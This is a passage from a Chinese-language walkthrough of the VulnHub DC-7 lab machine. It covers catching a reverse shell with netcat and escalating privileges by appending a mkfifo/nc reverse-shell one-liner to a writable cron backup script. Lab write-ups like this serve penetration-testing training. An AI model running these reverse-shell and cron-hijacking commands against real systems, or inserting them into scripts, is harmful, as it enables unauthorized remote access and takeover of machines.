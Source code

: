 kali 监听
```
nc -lvp 4444
```

点击 preview,成功回弹

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC7/16.png)

---

# 后期-提权

和 dc7user 这个用户一样, www 用户也啥吊权限没有,只好把希望放在之前的备份脚本上

```
cd /opt/scripts/
ls -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC7/17.png)

可见文件属组为 www-data,组权限 rwx,我们可以对脚本进行修改,期望通过定时任务尝试提权

kali 监听
```
nc -lvp 5555
```

写入 payload
```
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 192.168.141.134 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
cat backups.sh
```

耐心等待几分钟,就反弹回来了
